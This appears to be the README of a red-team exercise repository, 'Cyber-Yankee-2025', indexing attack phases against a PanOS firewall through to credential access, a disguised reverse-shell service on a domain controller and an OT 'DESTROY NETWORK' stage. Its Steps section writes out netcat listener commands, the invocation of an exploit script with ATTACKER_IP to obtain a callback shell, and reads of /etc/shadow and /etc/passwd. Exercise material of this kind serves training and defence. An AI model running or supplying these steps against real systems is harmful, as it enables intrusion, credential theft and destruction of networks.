 # Cyber-Yankee-2025

### Sassy Panda

[Phase1](Phase1) - #PanOS Exploit

[Phase2](Phase2) - #PanOS Internal Reconnaissance & Enumeration

[Phase3](Phase3) - #PanOS Persistence

[Phase4](Phase4) - #PanOS proxy chains

---

[Phase5](Phase5) - #Discovery Inside Orange Space

[Phase6](Phase6) - #Credential Access (via LDAP, SAM/NTDS)


---

[Phase7](Phase7) - Lateral Movement and Persistence *DAY 3*

[Phase8](Phase8) - `WinDefMon` Reverse Shell Service on DC

[Phase9](Phase9) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK


# Steps

1. initial access - setup initial listener (netcat/metasploit) with your 61574
    run command: `nc -lvnp 61574`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform; `whoami`, `ifconfig`
    run command: 
    `cat /etc/shadow` # grab the users on the machine
    `cat /etc/passwd` # grab what shell permissions every user has